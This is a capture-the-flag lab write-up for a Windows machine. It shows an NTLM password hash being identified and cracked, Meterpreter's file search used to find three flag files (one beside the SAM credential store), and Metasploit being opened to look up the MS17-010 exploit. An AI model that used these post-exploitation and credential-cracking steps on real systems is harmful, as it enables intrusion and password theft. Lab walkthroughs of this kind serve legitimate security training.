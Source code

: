 Using an online hash identified (https://hashes.com/en/tools/hash_identifier), we can paste the hash and find that the password is in an NTLM format hash and is:
```
ffb43f0de35be4d9917ac0cc8ad57f8d - alqfna22 - Possible algorithms: NTLM
```

### Flags

First flag can be found in the root directory. The second flag can be found in the SAM (System Account Manager) config file located at C:/Windows/System32/config.  Meterpreter has a search function that allows you to search a filesystem for an indicated patters. In our case, we can use the following command to search for flag.txt files on the system. The third flag is found the C:\Users\Jon\Documents directory.
```
meterpreter > search -f flag*.txt
Found 3 results...
==================

Path                                  Size (bytes)  Modified (UTC)
----                                  ------------  --------------
c:\Users\Jon\Documents\flag3.txt      37            2019-03-17 12:26:36 -0700
c:\Windows\System32\config\flag2.txt  34            2019-03-17 12:32:48 -0700
c:\flag1.txt                          24            2019-03-17 12:27:21 -0700
```

##### SAM File
The System Account Manager config file contains the hashed values of passwords for users on the system. When a user inputs a password, it is checked against the hash in this file for authentication.

```
```
└─$ msfconsole                                                             
                                                  
     ,           ,
    /             \
   ((__---,,,---__))
      (_) O O (_)_________
         \ _ /            |\
          o_o \   M S F   | \
               \   _____  |  *
                |||   WW|||
                |||     |||


       =[ metasploit v6.2.11-dev                          ]
+ -- --=[ 2233 exploits - 1179 auxiliary - 398 post       ]
+ -- --=[ 867 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: Save the current environment with the 
save command, future console restarts will use this 
environment again

msf6 > 
```

```
msf6 > search ms17-010
